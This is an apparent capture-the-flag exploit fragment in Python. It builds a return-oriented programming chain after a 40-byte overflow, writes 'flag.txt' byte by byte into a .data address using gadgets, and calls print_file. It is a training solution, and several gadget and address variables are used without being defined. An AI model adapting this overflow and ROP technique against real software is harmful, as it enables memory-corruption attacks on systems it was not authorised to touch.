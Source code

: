 ```python
# writes al into rdi addr
gadget3 = 0x00400639

# saves 32bit addr in rbx
def set_rbx(addr):
    payload = b''

    # index and length of bits to copy
    # first 8 index
    rdx1 = p8(32)
    # last 8 len
    rdx2 = p8(32)
    rdx3 = p32(0) + p16(0)
    rdx = rdx1 + rdx2 + rdx3

    # address we want to copy
    # addr + 0x3ef2
    # avoid addition by leaving it blank
    # 0xXXXX0000
    # 0x00003ef2
    rcx1 = p32(0)
    rcx2 = p32(addr)
    rcx = rcx1 + rcx2

    # sets rbx
    payload += p64(gadget2) + rdx + rcx
    return payload


al = 11 # initial al value
# char is what we will write
# addr is address of target char
# offset will find the proper writing location
# returns ROP chain in bytes
def write_byte(addr, char, offset):
    global al
    
    # set address to get byte
    payload = set_rbx(addr-al)

    # read byte into al
    payload += p64(gadget1)
    # update al with new value
    al = ord(char)

    # write byte al into .data
    rdi = p64(write_addr + offset)
    payload += p64(pop_rdi) + rdi + p64(gadget3)
    return payload

# write flag.txt in mem
char_map = {'f': 0x0040058a, 'l': 0x004003e4, 'a': 0x00400424,
            'g': 0x004003cf, '.': 0x004003fd, 't': 0x004003e0,
            'x': 0x00400725}
target_str = 'flag.txt'

# create payload
payload = b'A' * 40
for i in range(0, len(target_str)):
    c = target_str[i]
    payload += write_byte(char_map[c], c, i)
# print file
payload += p64(pop_rdi) + p64(write_addr) + p64(print_file_addr)
```